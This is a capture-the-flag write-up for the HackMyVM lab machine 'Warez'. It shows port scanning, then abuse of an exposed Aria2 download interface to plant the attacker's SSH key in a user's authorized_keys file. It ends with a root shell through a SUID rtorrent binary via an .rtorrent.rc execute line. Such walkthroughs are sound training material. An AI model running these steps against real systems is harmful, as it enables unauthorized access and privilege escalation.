 ```yaml
---
title: "Warez - HackMyVM"
summary: "Difficulty: Easy 🟢"
---
```


<style>

h6 {
  text-align: center;
  font-style: italic;
  font-weight: normal;
  position: relative;
  top: -10px;
}

img {
    display: flex !important;
    margin: 0 auto !important;
    justify-content: center !important;
    border-radius: 14px;
    border: 2px solid #4a90e2;
    box-shadow: 0 2px 6px rgba(0, 0, 0, 0.1);
    transition: box-shadow 0.3s ease, transform 0.3s ease;
}
img:hover {
    box-shadow: 0 6px 12px rgba(0, 0, 0, 0.15);
    transform: scale(1.03);
}

</style>

[Machine Link](https://hackmyvm.eu/machines/machine.php?vm=Warez)

When the machine starts, it displays its IP address; in this case, it is 192.168.18.190.

![1](/images/writeups/warez/1.png)
<h6>The victim machine's IP address</h6>

To begin, we will perform a scan using the **NMAP** tool, which will help us identify open ports on the target machine. First, we will use the following command for a **quick scan** that informs us about the **open ports**. We will scan all ports (**65535**) without depth.

```bash
sudo nmap -sS -p- --min-rate 4500 -n -Pn 192.168.18.190
```

![2](/images/writeups/warez/2.png)

And now, with the **open ports** identified, we will perform a more **detailed scan**:

```bash
nmap -sCV -p22,80,6800 -n -Pn 192.168.18.190 -oN target
```

![3](/images/writeups/warez/3.png)

We observe that port 6800 is running [**Aria2**](https://github.com/aria2/aria2), which is an **open-source downloader** that supports various protocols such as **HTTP**, **FTP**, **BitTorrent**.

By accessing **port 80**, we obtain the username **Carolina**.

![4](/images/writeups/warez/4.png)
<h6>User carolina</h6>

Next, we notice that by selecting '**By URLs**' within '**Add**', we can **upload files** to any directory. So, I am going to copy my **id_rsa.pub** to a file named ***authorized_keys*** and upload it, allowing the victim machine to recognize our machine as authorized, specifically as the user **Carolina**.

```bash
cp id_rsa.pub authorized_keys
```

If you don't have the ***id_rsa.pub*** file, you can create it with the following command:

```bash
ssh-keygen
```

And with **Python**, we start a web server on **port 8080**:

```bash
python3 -m http.server 8080
```

![5](/images/writeups/warez/5.png)

Now, we put the URL where our file is located and change the destination directory to ***/home/carolina/.ssh***.

![6](/images/writeups/warez/6.png)

We send it, and now we can access via **port 22** (**SSH**) as the user **carolina**.

![7](/images/writeups/warez/7.png)
<h6>We are now Carolina</h6>

Let's check how many users are on the machine. It appears that there are only two users: **carolina** and **root**.

```bash
grep /bin/bash /etc/passwd
```

![8](/images/writeups/warez/8.png)
<h6>User on the machine</h6>

We get the user flag, and now it’s time to move on to privilege escalation.

## Privilege escalation to Root

We enumerate the **SUID binaries** on the machine, and there is one that we can use to escalate to **root** very easily. The relevant binary is **rtorrent**.

![9](/images/writeups/warez/9.png)

We search in [**GTFObins**](https://gtfobins.github.io/), and it provides a way to escalate to **root** using this **SUID binary** by running the following command:

![11](/images/writeups/warez/11.png)
<h6>Command for privilege escalation</h6>

```bash
echo "execute = /bin/sh,-p,-c,\"/bin/sh -p <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc 
/usr/bin/rtorrent
```

![12](/images/writeups/warez/12.png)
<h6>We are root</h6>

Now that we have **root** access, let’s grab the **root flag** and complete the machine

![13](/images/writeups/warez/13.png)